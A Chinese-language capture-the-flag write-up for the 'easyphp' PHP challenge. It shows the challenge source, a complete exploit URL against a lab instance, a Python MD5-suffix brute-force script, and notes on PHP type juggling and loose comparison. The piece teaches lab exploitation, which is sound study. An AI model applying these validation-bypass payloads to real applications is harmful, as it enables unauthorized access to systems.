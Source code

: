 【攻防世界】 Web新手题

题目描述：easyphp

题目来源：江苏工匠杯

题解过程：

```php
<?php
// 显示当前文件的源代码
highlight_file(__FILE__);

// 初始化两个标志变量，用于记录是否通过前后两个阶段的验证
$key1 = 0;
$key2 = 0;

// 从URL的GET参数中获取a和b的值
$a = $_GET['a'];
$b = $_GET['b'];

// 第一阶段验证：检查a和b参数
if(isset($a) && intval($a) > 6000000 && strlen($a) <= 3){
    // 如果a参数存在，转换为整数后大于600万，且字符串长度不超过3个字符
    if(isset($b) && '8b184b' === substr(md5($b),-6,6)){
        // 如果b参数存在，且b的MD5哈希值的最后6个字符等于'8b184b'
        $key1 = 1;  // 通过第一阶段验证，设置key1为1
        }else{
            die("Emmm...再想想");  // b参数验证失败，退出并显示提示
        }
    }else{
    die("Emmm...");  // a参数验证失败，退出并显示提示
}

// 从URL的GET参数c中获取JSON数据并转换为PHP数组
$c=(array)json_decode(@$_GET['c']);

// 第二阶段验证：检查c参数的数据结构
if(is_array($c) && !is_numeric(@$c["m"]) && $c["m"] > 2022){
    // 如果c是数组，且c中的m元素不是数字，但比较时大于2022
    
    if(is_array(@$c["n"]) && count($c["n"]) == 2 && is_array($c["n"][0])){
        // 如果c中的n元素是数组，且恰好有2个元素，且第一个元素也是数组
        
        $d = array_search("DGGJ", $c["n"]);  // 在n数组中搜索"DGGJ"值
        $d === false?die("no..."):NULL;      // 如果没找到DGGJ，退出程序
        
        // 遍历n数组的每个元素
        foreach($c["n"] as $key=>$val){
            $val==="DGGJ"?die("no......"):NULL;  // 如果任何元素严格等于"DGGJ"，退出程序
        }
        $key2 = 1;  // 通过第二阶段验证，设置key2为1
    }else{
        die("no hack");  // n数组结构不符合要求，退出
    }
}else{
    die("no");  // c参数验证失败，退出
}

// 最终验证：如果两个阶段都通过
if($key1 && $key2){
    include "Hgfks.php";        // 包含存储flag的文件
    echo "You're right"."\n";   // 显示成功信息
    echo $flag;                 // 输出flag
}

?>

```

1、看到这种题，不要慌，首先F12打开终端、查看源码等等，看看是否有其它的信息

2、开始代码审计，理解整个php代码的运行流程，以及如何构造参数。（每行代码已给出解释——见上方图片）

完整构造：

```
http://61.147.171.35:64025/?a=6e9&b=53724&c={"m":"2025a","n":[[1,2],0]}
```

3、这里牵扯到一些性质和方法，也是CTF经常会出现的题。

​	（1）JSON数据结构构造

​	（2）MD5哈希碰撞：（可自行利用语言编写脚本或使用专门哈希碰撞工具）

​			暴力破解找到MD5最后六位为特定值的输入（最常见）

python：（每行已给注释）

```python
import hashlib  # 导入哈希库，用于计算MD5等哈希值


def simple_brute_force():  # 定义一个名为simple_brute_force的函数，用于暴力破解
    target = "8b184b"  # 设置目标字符串，即MD5哈希值的最后6位需要匹配的内容

    for i in range(100000000):  # 循环1亿次，i从0到99999999
        test_str = str(i)  # 将当前数字i转换为字符串，因为MD5函数需要字符串输入

        md5_hash = hashlib.md5(test_str.encode()).hexdigest()  # 计算test_str的MD5哈希值并转换为16进制字符串

        if md5_hash[-6:] == target:  # 检查MD5哈希值的最后6个字符是否等于目标值"8b184b"
            print(f"✅ 找到解: {test_str}")  # 如果找到匹配，打印成功的提示信息和找到的字符串
            print(f"完整MD5: {md5_hash}")  # 打印完整的MD5哈希值，用于验证
            return test_str  # 返回找到的字符串并结束函数执行

        # 每100万次显示进度
        if i % 1000000 == 0:  # 检查当前循环次数是否是100万的倍数（0, 1000000, 2000000...）
            print(f"已尝试: {i} 次...")  # 打印当前已尝试的次数，让用户了解进度

    print("❌ 在数字范围内未找到解")  # 如果循环结束都没有找到匹配的值，打印失败信息
    return None  # 返回None表示没有找到解


# 运行
print("开始暴力破解...")
result = simple_brute_force()  # 调用simple_brute_force函数执行暴力破解，并将结果保存到result变量
if result:  # 检查result是否有值（不是None、False、0等假值）
    print(f"🎉 成功！输入这个值即可: {result}")  # 如果找到了解，打印最终的成功信息和找到的值
```

​	（3）PHP类型转换

​			只有以非数字开头的字符串才会被转换为0

​	（4）PHP松散比较

​			0 == "DGGJ"        // true - 非数字字符串转为0 

​			0 == "ABC"         // true 

​			0 == "任何非数字"    // true 

​			1 == "DGGJ"        // false

​	（5）PHP错误控制符@

​			@$["m"]——即使@$["m"]不存在也不报错

4、总结

​	写这种CTF题时，我认为最重要的一点是：”一定要代码审计，一点要看懂整个代码的运行流程。不然无从下手。要学会利用工具以及自行编写脚本的能力，市面上这么多语言，至少精通一名语言，这里推荐python，上手快 ，效率高，运行快！
